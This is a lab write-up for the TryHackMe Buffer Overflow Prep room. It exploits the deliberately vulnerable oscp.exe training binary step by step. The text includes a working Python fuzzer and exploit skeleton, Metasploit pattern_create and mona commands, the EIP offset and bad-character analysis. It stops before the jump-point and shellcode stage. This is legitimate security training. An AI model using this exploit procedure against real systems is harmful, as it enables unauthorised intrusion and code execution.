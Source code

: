 # Buffer Overflow Prep
* Win7 VM with Immunity Debugger and PuTTY installed.
* Login over RDP using xfreerdp.
```
xfreerdp /u:admin /p:password /cert-ignore /v:TARGET_IP /workarea
```
* Choose "Home" option if Windows prompts for network location.
* [Exploiting buffer overflows cheat sheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
## "oscp.exe" Overflow
* Right-click "Immunity Debugger" > "Run as administrator".
  
![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/7397a66c-46cc-4cc5-8446-223595d3fb85)

* "File" > "Open" > navigate to "vulnerable-apps" folder > "oscp" folder > "oscp.exe" > "Open".
* "Debug" > "Run".
* oscp.exe binary runs in terminal window.
  
![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/ea00975e-21b2-4bea-915c-f1631601fed0)
* Connect to port 1337 using netcat on attack host.
```
nc TARGET_IP 1337
Welcome to OSCP Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
OVERFLOW1 [value]
[...snip...]
EXIT
```
* Choose "OVERFLOW 1 test".
```
OVERFLOW1 test
OVERFLOW1 COMPLETE
```
* Terminate netcat connection.

### Mona Configuration
* Configure Mona working folder.
* Run command in input box at bottom of Immunity Debugger window.
```
!mona config -set workingfolder c:\mona\%p
```

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/7fc8e531-7e2a-4cac-9cc7-7d455c5306f5)

### Fuzzing
* Create "fuzzer.py" file on attack host.
```
#!/usr/bin/env python3

import socket, time, sys

ip = "TARGET_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
* Run script using pthon.
```
python3 fuzzer.py
```
* Script sends increasingly long strings comprised of As.
* Fuzzer exits with error message if it crashes target host with one of the strings.
* Note largest number of bytes that were sent.
  * Fuzzing with 1900 bytes succeeded.
  * Fuzzing crashed at 2000 bytes.

### Crash Replication and Controlling EIP
* Create "exploit.py" file on attack host.
```
import socket

ip = "TARGET_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
* Generate cyclic pattern of length 400 bytes longer than string that crashed the server.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
  * `-l` value specifes number of bytes.
* Place output into "payload "variable of "exploit.py" script.
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/6e9f3fb9-ac68-4da9-a0a7-51b8b8ae024b)

* Run modified "exploit.py" script on attack host.
```
python3 exploit.py
Sending evil buffer...
Done!
```
* Script crashes oscp server.
* Run mona command in Immunity Debugger command input box.
```
!mona findmsp -distance 2400
```
  * `-distance` is length of cyclic pattern.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/0d739081-4f54-4c4e-a326-f9ad77a6689d)

* Output displays EIP offset.
```
EIP contains normal pattern : 0x6f43396e (offset 1978)
```
* Update "exploit.py" script.
  * Set "offset" variable to 1978.
  * Set "payload" variable to empty string.
  * Set "retn" variable to "BBBB".
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.
* Run modified "exploit.py" script.
* EIP register now overwritten with the 4 Bs - hex 42424242.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/b4999318-b3a8-43c9-8701-5cea15616d49)

### Finding Bad Characters
* Generate bytearray using mona.
  * Exclude null byte (`\x00`) by default.
```
!mona bytearray -b "\x00"
```

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/c79c567e-e342-464b-9d21-ec26b68a4b1f)

* Location of "bytearray.bin" is "c:\mona\oscp\bytearray.bin".
* Generate string of bad characters identical to bytearray.
  * Python script generates string of bad chars from `\x01` to `\xff`.
```
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```
* Set "payload" variable of "exploit.py" script to string of bad characters generated by script.
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.
* Run modified "exploit.py" script.
* Note what address ESP register points to in "Registers" window.

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/b47ca552-540c-4c25-80ba-f0f8f0f9f4dd)

* Add address to mona comparison command.
```
!mona compare -f c:\mona\oscp\bytearray.bin -a 0190fa30
```

![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/6b5dab08-1c13-465e-b050-279f2872b703)
* Window shows result of comparison and any characters different in memory to those generated by "bytearray.bin" binary.
* Not all of these might be badchars!
  * Sometimes badchars cause next byte to get corrupted too - or even affect the rest of the string.
* First badchar in list is null byte (`\x00`) as this was excluded from "bytearray.bin" file.
  * Note the other possible badchars (07 08 2e 2f a0 a1).
* Restart "oscp.exe" in Immunity.
* Generate new bytearray in mona specifying the identified badchar and null byte.
```
!mona bytearray -b "\x00\x07"
```
* Remove `\x07` character from "payload" variable in "exploit.py" script.
* Run modified "exploit.py" script.
* Compare using mona.
  * ESP = 0195fa30
*
*
*    until results status returns "Unmodified".
  * This indicates no more badchars exist.

### Finding a Jump Point

